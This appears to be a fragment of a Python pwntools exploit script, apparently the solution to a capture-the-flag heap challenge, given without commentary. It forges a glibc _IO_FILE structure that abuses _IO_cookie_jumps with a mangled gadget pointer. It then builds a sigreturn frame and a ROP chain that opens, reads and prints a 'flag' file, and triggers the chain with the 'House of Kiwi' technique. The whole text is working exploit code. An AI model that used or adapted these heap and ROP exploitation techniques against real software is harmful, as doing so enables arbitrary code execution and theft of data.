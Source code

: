 ```python
fake_IO_FILE += p64(0)  # _IO_buf_base
fake_IO_FILE += p64(0)  # _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\x00')
fake_IO_FILE += p64(next_chain)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, '\x00')
fake_IO_FILE += p64(heap_base)  # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xB0, '\x00')
fake_IO_FILE += p64(0)  # _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xC8, '\x00')
fake_IO_FILE += p64(libc.sym['_IO_cookie_jumps'] + 0x40)  # vtable
fake_IO_FILE += p64(srop_addr)  # rdi
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(gadget_addr ^ (heap_base + 0x22a0), 0x11))

fake_frame_addr = srop_addr
frame = SigreturnFrame()
frame.rdi = fake_frame_addr + 0xF8
frame.rsi = 0
frame.rdx = 0x100
frame.rsp = fake_frame_addr + 0xF8 + 0x10
frame.rip = pop_rdi_addr + 1  # : ret

rop_data = [
    pop_rax_addr,  # sys_open('flag', 0)
    2,
    syscall_addr,

    pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
    0,
    pop_rdi_addr,
    3,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr,

    pop_rax_addr,  # sys_write(1, heap, 0x100)
    1,
    pop_rdi_addr,
    1,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr
]
payload = p64(0) + p64(fake_frame_addr) + '\x00' * 0x10 + p64(setcontext_addr + 61)
payload += str(frame).ljust(0xF8, '\x00')[0x28:] + 'flag'.ljust(0x10, '\x00') + flat(rop_data)

edit(0, fake_IO_FILE)
edit(2, payload)

add(8, 0x450)  # House OF Kiwi
# gdb.attach(sh, "b _IO_cookie_write")
run_opcode()
sh.interactive()
```

